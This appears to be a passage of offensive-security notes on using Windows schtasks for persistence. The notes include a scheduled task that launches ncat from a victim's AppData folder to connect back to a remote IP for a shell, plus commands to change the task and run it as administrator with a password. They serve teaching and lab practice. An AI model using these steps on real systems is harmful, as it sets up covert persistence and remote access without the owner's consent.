 - **`/tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"`**: Specifies the executable to run and the arguments to pass (in this case, Ncat connecting to a remote host).
**Outcome:**
```
SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```
This command creates a scheduled task that runs at system startup. It launches Ncat (located in the user's AppData directory) and connects to a specified IP address and port, which could be used to get a shell back to a command and control framework if the task is executed successfully.


#### Modifying an Existing Scheduled Task
Modifying an existing scheduled task typically involves changing its triggers, actions, or other settings. The `schtasks` command can be used to accomplish this by adding or altering parameters.
**Example Command for Modifying a Task:**
```
schtasks /change /tn "My Secret Task" /tr "C:\NewPath\NewExecutable.exe"
```
**Explanation:**
- **`/change`**: Indicates that you are modifying an existing task.
- **`/tn "My Secret Task"`**: Specifies the name of the task to be modified.
- **`/tr "C:\NewPath\NewExecutable.exe"`**: Changes the action to be taken by the task.

**Common Parameters for Modification:**
- **/tn**: Specifies the task name.
- **/tr**: Defines the new action or command to be executed.
- **/sc**: Changes the schedule (e.g., daily, weekly

![[Screenshot_20240915_201813.png]]

#### Modifying a Scheduled Task to Use Specific Credentials
If you need to modify a scheduled task to run with specific credentials (e.g., using a local admin password hash), you can use the `/change` parameter with `schtasks` to set the user account and password.
**Example Command:**
```
schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"
```
**Explanation:**
- **`/change`**: Indicates you are modifying an existing task.
- **`/tn "My Secret Task"`**: Specifies the task name to modify.
- **`/ru administrator`**: Sets the user account under which the task will run.
- **`/rp "P@ssw0rd"`**: Provides the password for the specified user account.
**Outcome:**
```
SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.
```


#### Verifying Task Changes
To ensure that your changes have been applied correctly, query the specific task using the `/tn` parameter and review the task details.
**Example Command:**
```
schtasks /query /tn "My Secret Task" /V /fo list
```
**Explanation:**
- **`/query`**: Queries the details of an existing task.
- **`/tn "My Secret Task"`**: Specifies the name of the task to query.
- **`/V`**: Provides verbose output, including detailed information.
- **`/fo list`**: Formats the output as a list for readability.
**Example Output:**
```
Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
```